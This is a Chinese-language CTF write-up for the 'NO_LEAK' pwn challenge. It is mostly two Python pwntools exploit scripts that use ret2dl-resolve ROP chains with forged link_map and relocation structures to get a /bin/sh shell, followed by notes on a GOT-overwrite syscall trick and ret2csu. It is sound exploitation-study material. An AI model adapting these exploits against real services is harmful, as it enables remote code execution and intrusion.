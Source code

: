 # NO_LEAK

题目来源:http://pwn.eonew.cn/challenge.php

乍一看保护，感觉妥妥的又是ret2dl？？？开了Full RELRO也就是让我们无法爆破got表。（虽然我本来就不会）

![8fVVAv](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/8fVVAv.png)

关于RET2DL这篇[文章](https://blog.csdn.net/panhewu9919/article/details/96425545)讲的很细节，还有贴代码.这题和bstack那题基本一样。。。

64位参考模板（需要地址泄露，这里用不了）

```python
#!/usr/bin/python
#coding:utf-8
import roputils
from pwn import *
#context.log_level = 'debug'

fpath = './bof'        #需要修改的地方：文件名、溢出偏移; 读取偏移0x100->  ?? ; gadget地址
offset = 112

rop = roputils.ROP(fpath)
addr_stage = rop.section('.bss') + 0x400
ptr_ret = rop.search(rop.section('.fini'))

main_addr=0x400676
pop6_addr=0x4007AA
call_addr=0x400790
write_got=0x601018
got_8=0x601008
buf = rop.retfill(offset)
buf += 'a'*8
buf += p64(pop6_addr)+p64(0)+p64(1)+p64(write_got)+p64(8)+p64(got_8)+p64(1)+p64(call_addr)
buf += p64(0)*7
buf += p64(main_addr)
buf =  buf.ljust(0x100,'\x00')    #1.泄露&link_map地址，读取偏移0x100有待修改

p = process(fpath)
print p.recv()
p.send(buf)
addr_link_map = u64(p.recv(8))


buf = rop.retfill(offset)         #2.往bss段写入ROP链和伪造的结构
buf += 'a'*8
buf += rop.call_chain_ptr(
    #['write', 1, rop.got()+8, 8],
    ['read', 0, addr_stage, 500]   #400
, pivot=addr_stage)
buf=buf.ljust(0x100,'\x00')
p.send(buf)

#gdb.attach(p,'b *0x4006ab')
addr_dt_debug = addr_link_map + 0x1c8     #3.bss段的rop作用:往link_map+0x1c8写0; 同时往bss段写入伪造结构。
buf = rop.call_chain_ptr(
    ['read', 0, addr_dt_debug, 8],
    [ptr_ret, addr_stage+450]  #380
)
buf += rop.dl_resolve_call(addr_stage+300)
buf =  buf.ljust(300,'\x00')
buf += rop.dl_resolve_data(addr_stage+300, 'system')
buf =  buf.ljust(450,'\x00')   #380
buf += rop.string('/bin/sh')
buf =  buf.ljust(500,'\x00')

p.send(buf)
p.send(p64(0))      #写0
p.interactive()

'''
#for i in range(len(buf)/8):
#	print hex(u64(buf[8*i:8*(i+1)]))
#raw_input('wait!\n')
'''

```

64位，无地址泄露

```python
#!/usr/bin/python
#coding:utf-8
from pwn import *

#需修改:文件名、溢出偏移、gadget地址、各节地址
fpath = './bstack'
offset = 0x70
length = 0x100
stack_size = 0x800
main_addr=0x400676
p6_addr=0x40077A
call_addr=0x400760
leave_ret=0x00000000004006AB
p_rbp_ret=0x00000000004005e0
p_rdi_ret=0x0000000000400783

elf = ELF(fpath)
read_got=elf.got['read']
read_plt = elf.plt['read']
got_8=elf.get_section_by_name('.got.plt').header.sh_addr+8   #0x601008
bss_addr =elf.get_section_by_name('.bss').header.sh_addr
base_stage = bss_addr + stack_size
#print 'got_8=',hex(got_8)

#x/100xw  GOT[8]
fake_link_map=elf.got['__libc_start_main']    #change!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
fake_st_value=0x4526a-0x20740    #0x4526a   0xf02a4     0xf1147
fake_r_offset=0x3c5720-0x20740
val_0x68=base_stage+0xc0-8    #0x600ea8
val_0x70=base_stage+0xc0-8    #0x600eb8
val_0xf8=base_stage+0xc0-8    #0x600f28
wait_time=0.1

def makecall(addr, rdi, rsi, rdx, tail = 0):
    payload = ''
    payload += p64(p6_addr)
    payload += p64(0x0)
    payload += p64(0x1)
    payload += p64(addr)
    payload += p64(rdx)
    payload += p64(rsi)
    payload += p64(rdi)
    payload += p64(call_addr)
    if (tail):
        payload += p64(0x0) * 7 + p64(tail)
    return payload

p = process(fpath)
#print p.recv()        # 'Welcome to XDCTF2015~!\n'

#1.往fake_link_map+0x68写值
payload='\x00'*offset
payload+='\x00'*8
payload+=makecall(read_got,0,fake_link_map+0x68,16,tail=main_addr)
payload=payload.ljust(0x100,'\x00')
p.send(payload)
sleep(wait_time)
p.send(p64(val_0x68)+p64(val_0x70))

#2.往fake_link_map+0xf8写值
payload='\x00'*offset
payload+='\x00'*8
payload+=makecall(read_got,0,fake_link_map+0xf8,8,tail=main_addr)
payload=payload.ljust(0x100,'\x00')
p.send(payload)
sleep(wait_time)
p.send(p64(val_0xf8))

#3.往base_stage写入伪造结构并跳过去
payload='\x00'*offset
payload+='\x00'*8
payload+=makecall(read_got,0,base_stage,0xd0,tail=0)   #假设结构大小是400
payload+=p64(0)*2+p64(base_stage)+p64(0)*4
payload+=p64(leave_ret)
payload=payload.ljust(0x100,'\x00')
p.send(payload)


#4.bss数据：rop-参数放在寄存器/ 伪造结构  
#(1)确定各个节的地址 
plt_0 = 0x0000000000400520 # objdump -d -j .plt bof
plt_1 = plt_0+6
#(2)确定重定位下标
align = 24 - (56 % 24)  # 这里的对齐操作是因为dynsym里的ELF64_R_SYM结构体都是24字节大小
index_offset = base_stage + 7*8 + align
index = (7*8 + align) / 24 # base_stage + 7*8 指向fake_reloc，减去rel_plt即偏移
#(3)确定动态链接符号下标
align = 24 - ((13*8) % 24)# 这里的对齐操作是因为dynsym里的Elf64_Sym结构体都是24字节大小
fake_sym_addr = base_stage + 13*8 + align
index_dynsym = (13*8 + align) / 24 # 除以24因为Elf64_Sym结构体的大小为24，得到write的dynsym索引号
#(4)伪造重定位结构+动态链接结构
r_info = (index_dynsym << 32) | 0x7
fake_reloc = p64(fake_r_offset) + p64(r_info) + p64(0)
fake_sym = p32(0) + p32(0x112) + p64(fake_st_value) + p64(0)

payload2 = p64(0)#'AAAAAAAA'
payload2 += p64(p_rdi_ret)
payload2 += p64(base_stage+0xc0)   #/bin/sh
payload2 += p64(plt_1)
payload2 += p64(fake_link_map)   #
payload2 += p64(index)       #jmprel 下标参数
payload2 += p64(0)       #返回地址

payload2 = payload2.ljust(index_offset-base_stage,'\x00')
payload2 += fake_reloc # index_offset(base_stage+7*8)的位置
payload2 = payload2.ljust(fake_sym_addr-base_stage,'\x00')
payload2 += fake_sym   # fake_sym_addr(base_stage+9*8)的位置
payload2 = payload2.ljust(0xc0,'\x00')
payload2 += p64(base_stage)
payload2 = payload2.ljust(0xd0,'\x00')

p.send(payload2)
p.interactive()


```

**方法二**

发现一个宝藏，通过got表覆盖来凑syscall。不过题目输入字符有限，直接改脚本没改成功。

https://www.4hou.com/posts/Q5rM



libc中的read代码中syscall距离函数开头只有0xf字节，而距离最近的ret只有0xa字节。可以用于构造一个syscall;ret的gadget，只要将read_got覆盖为0x*f就有16分一的机会能call到syscall。

![Q3pQ4g](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/Q3pQ4g.png)



[**ret2csu**](https://xz.aliyun.com/t/4068)

![ZvEVG0](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/ZvEVG0.png)

![image-20200509165540521](/Users/migraine/Library/Application Support/typora-user-images/image-20200509165540521.png)